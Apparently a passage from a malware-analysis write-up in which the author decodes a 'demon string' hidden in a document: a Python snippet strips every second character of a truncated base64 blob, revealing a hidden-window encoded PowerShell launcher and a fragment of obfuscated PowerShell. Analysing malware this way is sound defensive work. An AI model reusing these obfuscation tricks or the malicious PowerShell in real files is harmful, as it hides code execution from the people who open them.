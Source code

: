 1. `sss` comes from the document content; the document contains 12 words and 65k characters;
2. `sss` contains at least one instance of "][(s)]w" for obfuscation reasons;
3. `sss` must contain some kind of code, since it's run later on;
4. `sss` must be processed by `CUT_AND_PASTE` _before_ it's runnable; `CUT_AND_PASTE` keeps the first 50 characters, and then 1 character out of 2;

Now, let's look at my demon string once more:
1. The demon string likely _is_ 95% of the document content (it's 62k character long);
2. The demon string contains a bunch of "][(s)]w";
3. Once removed, the demon string invokes the powershell, but the encoded portion cannot be decoded yet;
4. The first 50 characters of the demon string contains `POwersheLL -windowstyle hidden -ENCOD`; the following characters are the obfuscated base 64 string.

Given how everything ties up so nicely, I have reason to believe that `sss` is (or better, _contains_) the demon string. 
I know they are not exactly the same because `sss` undergoes a cut of the first 4 characters, which wouldn't make sense for the demon string (it directly starts with "POwershell"; changing it to "rshell" doesn't look productive to me).

And so it goes, I unraveled the mystery of the demon string base 64 portion: I simply need to consider 1 character out of 2, and then decode them. I still don't know whether I have to start with keeping or with removing the character, because of all the "`sss` and the demon string are not exactly the same" deduction. 

I can try both the options, so it doesn't really matter.
```py
import base64

command='IPAABYTKAYFzYXApIyAdAxgDAfDLArAVeDgGBuYtAHCyAwAYKTAzBdbTAuFxQuAVeaQvBkQeAYGuUgAxXmQCAkoPArCsIgANeMwnAlynAWHd0IAZebwQAjwhAfHN0hAreVwWAC0XApHK0bARekwmAOzlAbHV0yAXeqwbAYxCAqHU0cAHIXglAitVAmGLYfAaIMAgASnWApGrUNAlJQwwAksDAlCxcbACcfgHBtFpAKEOMmAUdXAwBLvZAQHkIYAcWUQDARnlACCxwFAlJjwFBzzFAeFRkLATcgwUBb0eAgCYcIAyLbAKADnWAtCF4XAaStQxBHPyAnCe4CAtZpAOBtJuAxCdcDALLJAFAmngArED0pAyJwwqAHpsAvCuA...'
try:
    # start with keeping
    encoded = command[::2]
    decoded = base64.b64decode(encoded)
    print('Started with keeping')
except:
    # start with removing
    encoded = command[1::2]
    decoded = base64.b64decode(encoded)
    print('Started with removing')

for b in decoded:
    if b != '\x00':
        print(chr(b), end='')
print()
```
Sure enough, I get some code! There is only one problem: it's obfuscated.

_Again._

```ps
SV  0zX ([TyPe]("{2}{0}{4}{3}{1}"-f 'e','rECtorY','sYst','.IO.dI','M')  ) ;   set  TxySeo  (  [TYpe]("{0}{7}{5}{6}{4}{2}{1}{8}{3}"-F'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG')) ;  $Nbf5tg3=('B9'+'yp'+('90'+'s'));$Vxnlre0=$Cludkjx + [char](64) + $R6r1tuy;$Ky3q0e8=(('Rq'+'dx')+'wo'+'5');  (  Dir  vaRiAble:0Zx).valuE::"CreAT`E`dIREc`T`OrY"($HOME + ((('nDp'+'Jrb')+('e'+'vk4n')+'D'+'p'+('C'+'cwr_2h')+'nD'+'p') -RePlAcE ('n'+'Dp'),[cHaR]92));$FN5ggmsH = (182,187,229,146,231,177,151,149,166);$Pyozgeo=(('J5f'+'y1')+'c'+'c');

[...]
```
## Deobfuscating the powershell code